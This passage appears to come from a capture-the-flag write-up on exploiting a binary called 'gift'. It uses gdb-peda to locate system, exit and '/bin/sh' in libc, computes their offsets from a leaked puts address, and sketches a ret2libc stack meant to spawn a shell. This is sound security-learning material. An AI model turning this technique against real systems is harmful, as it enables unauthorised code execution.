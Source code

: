 
## Exploiting the win function (Part 2)

Now that we can leak some libc function's address and return to win() to enter more fancy stuff, we can craft something that should do:  
  
system("/bin/sh");  
exit();  
  
luckily everything can be found in the libc:  

```
% gdb-peda ./gift
gdb-peda$ break main
Breakpoint 1 at 0x80489ef
gdb-peda$ run
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f48dc8 ("/bin/sh")

gdb-peda$ info address puts
Symbol "puts" is at 0xf7e4b880 in a file compiled without debugging.

gdb-peda$ info address system
Symbol "system" is at 0xf7e26b40 in a file compiled without debugging.

gdb-peda$ info address exit
Symbol "exit" is at 0xf7e1a7f0 in a file compiled without debugging.

```

so let's calculate the offsets between the address of puts and the others:

```
system  = puts - 0x24d40 (0xf7e4b880 - 0xf7e26b40 == 0x24d40)
exit    = puts - 0x31090 (0xf7e4b880 - 0xf7e1a7f0 == 0x31090)
/bin/sh = puts + 0xfd548 (0xf7e4b880 - 0xf7f48dc8 == -0xfd548)
```


so if we can make our stack look like this:

```
+----------------------------------+
| system() = leaked_puts - 0x24d40 |
+----------------------------------+
| exit()   = leaked_puts - 0x31090 |
+----------------------------------+
| /bin/sh  = leaked_puts + 0xfd548 |
+----------------------------------+
```

we should get a shell...  


we can simply extend of script [exploit_v3.py](exploit_v3.py):  
